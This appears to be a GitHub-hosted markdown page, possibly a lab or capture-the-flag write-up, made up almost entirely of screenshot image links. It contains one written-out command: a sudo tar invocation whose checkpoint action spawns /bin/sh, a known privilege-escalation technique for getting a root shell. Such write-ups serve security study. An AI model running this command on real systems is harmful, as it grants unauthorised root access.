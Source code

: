 Lorem Ypsum


![image](https://github.com/user-attachments/assets/010465f9-4cd7-42e3-ac0a-d6f6cfd5faec)


![image](https://github.com/user-attachments/assets/d6f6de4c-3968-4daf-94e6-dabd211d854b)

![image](https://github.com/user-attachments/assets/81b1bee3-2deb-4df4-a342-d09f7a9f573f)



![image](https://github.com/user-attachments/assets/9dc80404-367c-48a2-8f65-407e1930a7b3)

![image](https://github.com/user-attachments/assets/626aa575-d5c1-4a38-b009-4c332ac887f9)

![image](https://github.com/user-attachments/assets/b687ec32-95d8-4c44-9a78-63d5d1eee097)

![image](https://github.com/user-attachments/assets/83a7cd30-102a-4cf8-a56d-466a8f0f8a36)

![image](https://github.com/user-attachments/assets/c15ffb71-8849-4b35-9354-c27cb60e7ec1)

![image](https://github.com/user-attachments/assets/81b7e746-cdb0-4703-b234-2f55053bff3f)

![image](https://github.com/user-attachments/assets/c1606844-66d4-4ced-b362-fd97a24de819)

![image](https://github.com/user-attachments/assets/24953f6f-3a61-4e89-a0b7-2a6edaf97718)

![image](https://github.com/user-attachments/assets/e6193965-977e-4f14-bb88-cfa927f5170b)

![image](https://github.com/user-attachments/assets/51f5f6fd-9c55-4ed4-810f-79ef4c9198e6)

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

![image](https://github.com/user-attachments/assets/95445546-e335-4d05-83d9-303c5b2e4aec)


![image](https://github.com/user-attachments/assets/a833fd3c-e823-4cff-9d6b-becf6b4517a3)


![image](https://github.com/user-attachments/assets/3973057e-bf05-43fd-a1b9-289e8e44f43a)

![image](https://github.com/user-attachments/assets/34894c4a-9a99-4cf1-8431-1621e6622521)















